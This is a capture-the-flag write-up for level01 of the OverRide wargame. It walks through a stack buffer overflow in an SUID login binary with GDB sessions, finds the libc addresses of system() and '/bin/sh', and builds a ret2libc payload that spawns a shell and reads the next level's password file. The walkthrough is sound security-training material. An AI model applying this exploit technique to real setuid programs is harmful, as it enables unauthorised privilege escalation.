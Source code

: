 # Tools
[Dogbolt - Decompiler Explorator](https://dogbolt.org/)
[Cutter - Reverse Engineering Tool](https://cutter.re/)
[GNU DeBugger - GDB](https://fr.wikipedia.org/wiki/GNU_Debugger)

# Exploit
The home of the level01 contians a binary, `level01`, that has an SUID bit set, and his owned by level02.

Using Dogbolt, we quicly identify a few misconceptions (see source.c for details):
1. A global variable we have control over.
2. Memory writing bigger than the size of the buffer they are writing in.

We identify using the source code that the expected username is "dat_wil" and the expected password is "admin", even though it still makes the program fails.
I start the program with GDB, and setup a breakpoint at the `verify_user_name()` call in the `main` function:
```
(gdb) b *0x0804852d
Breakpoint 1 at 0x804852d
(gdb) run
Starting program: /home/users/level01/level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wilAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x0804852d in main ()
(gdb) i var
...
0x0804a040  a_user_name
...
```
Now, if we look at the content of `a_user_name`:
```
(gdb) x/20x 0x0804a040
0x804a040 <a_user_name>:        0x5f746164      0x416c6977      0x41414141      0x41414141
0x804a050 <a_user_name+16>:     0x41414141      0x41414141      0x41414141      0x41414141
0x804a060 <a_user_name+32>:     0x41414141      0x41414141      0x41414141      0x41414141
0x804a070 <a_user_name+48>:     0x41414141      0x0a414141      0x00000000      0x00000000
```
We see the repsentation of "dat_wil" followed by the 'A's we wrote. 
Then, we add another breakpoint at the `verify_user_pass()` call, continue the program and input 100 'B's in the password input:
```
(gdb) b verify_user_pass
Breakpoint 2 at 0x80484a8
(gdb) c
Continuing.
verifying username....

Enter Password: 
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB

Breakpoint 2, 0x080484a8 in verify_user_pass ()
(gdb) c
Continuing.
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) i r
eax            0x1      1
ecx            0xffffffff       -1
edx            0xf7fd08b8       -134412104
ebx            0x42424242       1111638594
esp            0xffffd7a0       0xffffd7a0
ebp            0x42424242       0x42424242
esi            0x0      0
edi            0x42424242       1111638594
eip            0x42424242       0x42424242
eflags         0x10282  [ SF IF RF ]
cs             0x23     35
ss             0x2b     43
ds             0x2b     43
es             0x2b     43
fs             0x0      0
gs             0x63     99
```
As we can see, `eip` is now `0x42424242`, or "BBBBB", which means that we successfuly hijacked the process execution flow.

To exploit that stack buffer overflow, we are going to make use of a `ret2libc`.
The libc contains primarly two interesting functions for us:
- `system()`
- `excve()`

Using `system("/bin/sh")`, we can spawn a shell withut having to write any shellcode.
Get the address of `system` using GDB:
```
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```
However, returning on `system()` alone won't do much, we need to pass it a string with the command we want to execute.

To illustrate that, let's create a simple program that calls `system("/bin/sh");` and show its instructions with GDB:
```c
#include <stdlib.h>

int main() {
	system("/bin/sh");
	return 0;
}
```
Disassembling the `main()` functuon with GDB:
```
(gdb) disass main
Dump of assembler code for function main:
   0x00000000004004f4 <+0>:	push   rbp
   0x00000000004004f5 <+1>:	mov    rbp,rsp
   0x00000000004004f8 <+4>:	mov    edi,0x4005fc
   0x00000000004004fd <+9>:	call   0x4003f0 <system@plt>
   0x0000000000400502 <+14>:	mov    eax,0x0
   0x0000000000400507 <+19>:	pop    rbp
   0x0000000000400508 <+20>:	ret
End of assembler dump.
(gdb) x/s 0x4005fc
0x4005fc:	 "/bin/sh"
```
As we can see, before the call to `system()`, we put the string "/bin/sh" on top of the stack.
Moreover, a call to a function will put the return address on the stack too.

So, when we enter the `system()` function, the stack will be something like (after `call system`):
\+ ---------------------------- +
| Other instructions or data    |
\+ ---------------------------- +
| Return address of system      |
\+ ---------------------------- +
|  `0x4005fc`: str "/bin/sh"    |
\+ ---------------------------- +

Now, we need to find the address of a "/bin/sh" string inside of `libc` or input it in the stack ourselves. I will use the first method. 
To do so, we first need to know the `libc` being used by our program, and then find the string in it.

After running the program in GDB, you can do `info proc map` to get info on the loaded libs:
```
(gdb) info proc map
process 2383
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/users/level01/level01
	 0x8049000  0x804a000     0x1000        0x0 /home/users/level01/level01
	 0x804a000  0x804b000     0x1000     0x1000 /home/users/level01/level01
	0xf7e2b000 0xf7e2c000     0x1000        0x0
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
	0xf7fd0000 0xf7fd4000     0x4000        0x0
	0xf7fd8000 0xf7fdb000     0x3000        0x0
	0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
	0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
	0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
	0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
```
The library being used is `/lib32/libc-2.15.so` at starting address `0xf7e2c000`.
Let's examine the library to see where can we locate a "/bin/sh" string:
```bash
strings -a -t x /lib32/libc-2.15.so | grep "/bin/sh"
 15d7ec /bin/sh
```
`strings` returns all human readable strings of a binary. `-a` reads all the file, `-t x` is to print the offset from the beginning of the file in hexadecimal format. 
So, we found a "/bin/sh" string at 0x15d7ec from the starting address of the `libc`, `0xf7e2c000`.
We can confirm that we found that string by printing what's at that address as a string using GDB:
```
(gdb) x/s 0xf7e2c000 + 0x15d7ec
0xf7f897ec:	 "/bin/sh"
```

Now, we have:
- the address of `system()`
- the address of a "/bin/sh" string
- a segfault

We can craft a payload!
We need to cause the segfault, then put the address of system to call it, the return address for system (can be anything), and then the argument for system: "/bin/sh".

Then craft a file containing the username and the payload as the password (one per line):
```
level01@OverRide:~$ echo dat_wil > input.txt && python payload.py >> input.txt
level01@OverRide:~$ cat input.txt
dat_wil
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAЮ��AAAA���
```
And finally `cat` it, (but keep the standard input opened) and execute the binary:
```
level01@OverRide:~$ cat input.txt - | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

cd ../level02
cat .pass
```
